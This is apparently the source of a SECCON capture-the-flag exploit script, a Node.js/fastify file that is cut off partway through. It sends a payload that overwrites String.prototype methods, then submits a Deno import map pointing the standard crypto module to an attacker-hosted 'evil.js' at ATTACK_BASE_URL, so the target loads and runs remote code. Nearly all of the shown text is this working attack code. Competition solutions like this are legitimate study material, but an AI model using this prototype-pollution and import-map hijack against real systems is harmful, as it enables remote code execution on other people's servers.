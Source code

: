 ```javascript
```

`index.js`:
```javascript
const fastify = require("fastify")();
const fs = require("node:fs");

const fail = (message) => {
  console.error(message);
  return process.exit(1);
};

const SECCON_BASE_URL = process.env.SECCON_BASE_URL || fail("No SECCON_BASE_URL");
const ATTACK_BASE_URL = process.env.ATTACK_BASE_URL || fail("No ATTACK_BASE_URL");

const LISTEN_PORT = process.env.PORT || "8080";

const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

const source = `
  output.importMap = input.importMap;
  output.imports = input.imports;
  "".constructor.prototype.replaceAll = "".constructor.raw;
  "".constructor.prototype.raw = input.filename;

  input.key = output;
`;

const importMapJson = JSON.stringify({
  filename: "import_map",
  imports: {
    "https://deno.land/std@0.161.0/crypto/mod.ts": `${ATTACK_BASE_URL}/evil.js`,
  },
});

const denoJson = JSON.stringify({
  filename: "deno",
  importMap: "import_map.json",
});

const exploit = async () => {
  const path = await (
    await fetch(`${SECCON_BASE_URL}/`, {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        source,
      }),
    })
  ).text();

  await fetch(`${SECCON_BASE_URL}${path}/run`, {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify({
      input: importMapJson,
    }),
  });

  await fetch(`${SECCON_BASE_URL}${path}/run`, {
```